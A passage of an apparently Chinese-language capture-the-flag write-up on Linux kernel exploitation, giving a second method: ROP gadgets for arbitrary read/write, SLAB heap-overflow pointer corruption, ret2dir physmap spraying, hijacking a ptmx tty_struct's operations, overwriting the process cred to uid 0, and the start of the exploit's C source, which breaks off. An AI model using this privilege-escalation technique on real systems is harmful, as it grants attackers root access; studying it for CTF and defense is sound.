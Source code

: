 

## 方法二

### <a class="reference-link" name="%E5%88%A9%E7%94%A8%E6%80%9D%E8%B7%AF"></a>利用思路

另一种方法是总结参考[1]中作者思路，他找到两个gadget：

```
write_gadget: mov dword ptr [rdx], esi; ret; 
read_gadget: mov rax, qword ptr [rdx + 0x28]; ret;
```

可以将这两个 gadget 与劫持 `ioctl` 指针结合达到任意地址读写的目的。

具体步骤如下：
- 利用堆溢出漏洞修改 SLAB 堆指针，使得下次分配堆块到一个较低的地址；
- ret2dir，使用physmap spray 使得用户空间地址与内核空间地址映射出现重叠（即两块或者多块虚拟内存映射到同一块物理内存），之后打开 ptmx 设备使得该设备的 `tty_struct` 结构体落入重叠区域；遍历 physmap 找到该设备所在页，此时该页面大概率与用户空间地址重合；
- 之后修改 `ops` 指针到 `memo` 所在内存，并在其中构造 `tty_operations` 结构体；
- 请求 ptmx 创建一个pts；遍历 `init_task` 找到当前进程，通过任意地址读写修改当前进程 `cred` 结构改写uid值为0；
- 读取 flag 文件。
个人认为physmap spray 这个步骤可以省略，直接通过方法一的方式堆溢出修改 `tty_struct` 结构体即可。不过ret2dir 可以不用修改cr4寄存器达到绕过 SMEP/SMAP的目的。

### <a class="reference-link" name="exp"></a>exp

```
#include &lt;stdio.h&gt;
#include &lt;stdlib.h&gt;
#include &lt;unistd.h&gt;
#include &lt;assert.h&gt;
#include &lt;string.h&gt;
#include &lt;pty.h&gt;
#include &lt;sys/fcntl.h&gt;
#include &lt;sys/mman.h&gt;
#include &lt;sys/ioctl.h&gt;

#define LOG(f_, ...) printf(("[*] " f_), __VA_ARGS__)
#define SPRAY_CNT 32*32*32 // 4K*32*32*32=128M
#define PAGESIZE 0x1000 //4k
#define TASKS_OFFSET 0x388
#define CRED_OFFSET 0x620
#define PID_OFFSET 0x488
void *sprayed_pages[SPRAY_CNT];
char zeropage[PAGESIZE];

int fd;
int slave_fd;
unsigned long kernel_base;
unsigned long r_gadget;
unsigned long w_gadget;
unsigned long init_task;
unsigned long setup_disble_smap;
unsigned long ftable[0x80];

struct skewBuf {
    unsigned char blank;
    unsigned long vec[127];
    unsigned char leftover[7];
}  __attribute__((packed));

int Open(const char *fname, int mode) {
    int fd = open(fname, mode);
    if (fd &lt; 0) {
```